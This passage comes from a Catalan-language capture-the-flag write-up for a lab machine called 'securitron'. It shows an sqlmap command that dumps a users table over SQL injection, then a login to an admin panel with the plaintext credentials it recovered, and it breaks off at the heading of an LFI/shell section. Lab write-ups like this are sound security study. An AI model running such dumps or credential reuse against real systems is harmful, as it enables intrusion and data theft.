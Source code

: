 Obtenim les dades de la taula `users` de la base de dades `pms_db`, la contrasenya sembla estar sense hashear, ¡bingo!

```
sqlmap -r request.txt --level 5 --risk 3 -D pms_db -T users --dump
```

![sqlmap table users](../../../assets/images/securitron/image-18.png)

## LFI / Shell

Entrem a l'aplicació des del formulari `http://admin19-32.securitron.thl/Admin/login.php` amb l'usuari `admin:Ntpqc6Z7MDkG`.

![Employee Management System Admin](../../../assets/images/securitron/image-19.png)
